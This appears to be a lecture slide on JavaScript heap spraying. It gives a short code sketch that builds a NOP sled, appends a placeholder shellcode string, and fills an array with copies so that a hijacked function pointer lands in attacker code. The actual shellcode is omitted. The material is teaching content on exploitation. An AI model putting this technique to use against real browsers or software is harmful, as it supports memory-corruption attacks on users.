

# JavaScript Heap Spraying
	var  nop = unescape(“%u9090%u9090”)
	while (nop.length < 0x100000)  nop += nop
	var shellcode = unescape("%u4343%u4343%...");
	var x = new Array ()
	for (i=0;  i<1000;  i++) {
		x[i] = nop + shellcode;
	}

Pointing a function pointer anywhere in the heap will cause shellcode to execute